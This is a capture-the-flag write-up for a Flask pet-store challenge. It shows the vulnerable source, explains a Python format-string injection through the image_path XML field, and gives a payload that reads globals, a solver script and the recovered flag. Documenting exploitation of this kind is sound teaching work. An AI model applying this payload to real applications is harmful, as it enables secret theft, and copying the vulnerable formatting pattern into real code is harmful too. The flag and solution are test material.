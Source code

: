 # Pet Store Viewer

## Description
> Explore our online pet store for adorable companions – from playful kittens to charming chickens. Find your perfect pet today. Buy now and bring home a new friend!

![image](https://github.com/user-attachments/assets/fdf1d4a7-cef9-4ebf-a4cb-72d8586cb931)
![image](https://github.com/user-attachments/assets/a47ff9a2-8843-434a-a36b-19214fffffba)

<details>
<summary>Source of <code>app.py</code></summary>

```py
from flask import Flask, render_template, url_for ,request
import os
import defusedxml.ElementTree as ET

app = Flask(__name__)

CONFIG = {
    "SECRET_KEY" : os.urandom(24),
    "FLAG" : open("/flag.txt").read()
}

app.secret_key = CONFIG["SECRET_KEY"]

class PetDetails: 
    def __init__(self, name, price, description, image_path, gender, size): 
        self.name = name 
        self.price = price 
        self.description = description 
        self.image_path = image_path 
        self.gender = gender 
        self.size = size 

def parse_store_xml_file(xml_file="store.xml"):
    try:
        tree = ET.parse(xml_file)
        root = tree.getroot()

        items = []
        for item_element in root.findall('item'):
            name = item_element.find('name').text
            price = float(item_element.find('price').text)
            description = item_element.find('description').text
            image_path = item_element.find('image_path').text
            gender = item_element.find('gender').text
            size = item_element.find('size').text

            item_data = (name, price, description, image_path, gender, size)
            items.append(item_data)

        return items
    except ET.ParseError as e:
        print(f"Error parsing XML: {e}")
    return None

def parse_xml(xml):
    try:
        tree = ET.fromstring(xml)
        name = tree.find("item")[0].text
        price = float(tree.find("item")[1].text)
        description = tree.find("item")[2].text
        image_path = tree.find("item")[3].text
        gender = tree.find("item")[4].text
        size = tree.find("item")[5].text
        details = PetDetails(name,price,description,image_path,gender,size)
        combined_items = ("{0.name};"+str(details.price)+";{0.description};"+details.image_path+";{0.gender};{0.size}").format(details)
        return [combined_items]
    except Exception as e:
        app.logger.error("Malformed xml, skipping")
        app.logger.error(e)
        return []

# Index
@app.route('/')
def index():
    return render_template('index.html',value=parse_store_xml_file())

@app.route('/view')
def view():
    xml = request.args.get('xml')
    list_results = parse_xml(xml)
    if list_results:
        items = list_results[0].split(";")
        return render_template('view.html',value=items)
    else:
        return render_template('error.html')

# Main Function
if __name__ == '__main__':
    app.run(debug=True, host="0.0.0.0")
```
</details>

## Challenge Overview

We were given a web application with two main endpoints:

1. **`/`**: Displays a list of pets.
2. **`/view`**: Shows the details of a specific pet.

The challenge hinted that the flag was stored within the server's configuration, specifically in the `CONFIG` dictionary, accessible through the Flask application.

### Initial Investigation

The application was built using Python Flask, and the source code for `app.py` was provided. Upon examining the code, I discovered that the flag was stored in the `CONFIG` dictionary under the `FLAG` key.

The `/view` endpoint accepts an XML input via a query parameter named `xml`. This XML is parsed by the `parse_xml` function, which extracts information such as the pet's name, price, description, image path, gender, and size.

```py
@app.route('/view')
def view():
    xml = request.args.get('xml')
    list_results = parse_xml(xml)
    if list_results:
        items = list_results[0].split(";")
        return render_template('view.html',value=items)
    else:
        return render_template('error.html')

```
### Identifying the Vulnerability

In the `parse_xml` function, the `image_path` is concatenated directly into the `combined_items` string without using a format string placeholder. This opens up the potential for a Format String Injection vulnerability.

```py
def parse_xml(xml):
    try:
        tree = ET.fromstring(xml)
        name = tree.find("item")[0].text
        price = float(tree.find("item")[1].text)
        description = tree.find("item")[2].text
        image_path = tree.find("item")[3].text
        gender = tree.find("item")[4].text
        size = tree.find("item")[5].text
        details = PetDetails(name,price,description,image_path,gender,size)
        combined_items = ("{0.name};"+str(details.price)+";{0.description};"+details.image_path+";{0.gender};{0.size}").format(details)
        return [combined_items]
    except Exception as e:
        app.logger.error("Malformed xml, skipping")
        app.logger.error(e)
        return []
```
By exploiting this vulnerability, it is possible to retrieve the contents of the `CONFIG` dictionary, including the flag.

## Solution

### Developing the Exploit

To exploit this, I crafted a malicious XML payload that injected the format string `{0.__init__.__globals__[CONFIG][FLAG]}` into the `image_path` field. This would allow us to extract the flag stored in the `CONFIG` dictionary.

### Crafting the XML Payload

```xml
<?xml version="1.0" encoding="utf-8"?>
<store>
    <item>
        <name>value0</name>
        <price>0.1</price>
        <description>value2</description>
        <image_path>{0.__init__.__globals__[CONFIG][FLAG]}</image_path>
        <gender>value4</gender>
        <size>value5</size>
    </item>
</store>
```
- `0.__init__` accesses the `__init__` method of the details object (which is a PetDetails instance).
- `.__globals__` accesses the global variables in the context where __init__ was defined, which includes the CONFIG dictionary.
- `[CONFIG]` retrieves the CONFIG dictionary from the global variables.
- `['FLAG']` retrieves the FLAG value from the CONFIG dictionary.

### Executing the Exploit

I implemented the following `solver.py` script to send the crafted XML payload to the challenge server:

```python
import requests

requests.packages.urllib3.disable_warnings()
s = requests.Session()
s.verify = False

XML = """\
<?xml version="1.0" encoding="utf-8"?>
<store>
    <item>
        <name>value0</name>
        <price>0.1</price>
        <description>value2</description>
        <image_path>{0.__init__.__globals__[CONFIG][FLAG]}</image_path>
        <gender>value4</gender>
        <size>value5</size>
    </item>
</store>
""".strip()

BASE_URL = "http://localhost:8222"

def main():
    res = s.get(
        f"{BASE_URL}/view",
        params={"xml": XML.replace("\n", "")},
    )

    print(res.text)

if __name__ == "__main__":
    main()
```

**Result:**

After running the `solver.py` script against the challenge server, the output revealed the flag, which was URL-encoded in the following format:

```html
<img src="/static/images/wgmy%7B74ba870f1a4873a3ba238e0bf6fa9027%7D" alt="Item Image">
```

By decoding the URL-encoded string, I retrieved the flag:

## Flag
```
wgmy{74ba870f1a4873a3ba238e0bf6fa9027}
```

